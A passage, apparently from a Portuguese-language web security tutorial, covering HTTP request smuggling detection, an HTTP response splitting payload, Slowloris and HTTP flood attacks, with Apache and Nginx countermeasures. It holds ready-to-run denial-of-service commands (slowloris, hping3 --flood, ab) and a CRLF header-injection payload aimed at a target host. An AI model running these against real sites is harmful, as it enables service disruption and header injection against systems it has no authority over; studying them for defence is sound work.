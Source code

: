 **Teste**:

```bash
# Detectar com ferramenta especializada
python3 smuggler.py --url https://target.com

# Burp Suite: HTTP Request Smuggler extension
```

**2. HTTP Response Splitting**

Injeção de headers para dividir resposta HTTP.

```bash
# Payload
/%0d%0aSet-Cookie:%20malicious=true

# Resultado: duas respostas HTTP
```

**3. Slowloris (DoS)**

Manter conexões HTTP abertas indefinidamente.

```bash
# slowloris
python slowloris.py target.com -p 80 -s 500

# Contramedida: timeout agressivo, rate limiting
# Apache:
# Timeout 60
# RequestReadTimeout header=20-40,minrate=500

# Nginx (mais resistente):
# client_body_timeout 10s;
# client_header_timeout 10s;
```

**4. HTTP Flood (Layer 7 DDoS)**

Requisições HTTP legítimas em volume alto.

```bash
# hping3 (limitado)
sudo hping3 -S -p 80 --flood target.com

# Apache Benchmark (ab)
ab -n 1000000 -c 1000 http://target.com/

# LOIC (Low Orbit Ion Cannon)
# HOIC (High Orbit Ion Cannon)

# Contramedida:
# - Rate limiting (nginx limit_req)
# - WAF (ModSecurity, Cloudflare)
# - CAPTCHA em suspeita
```
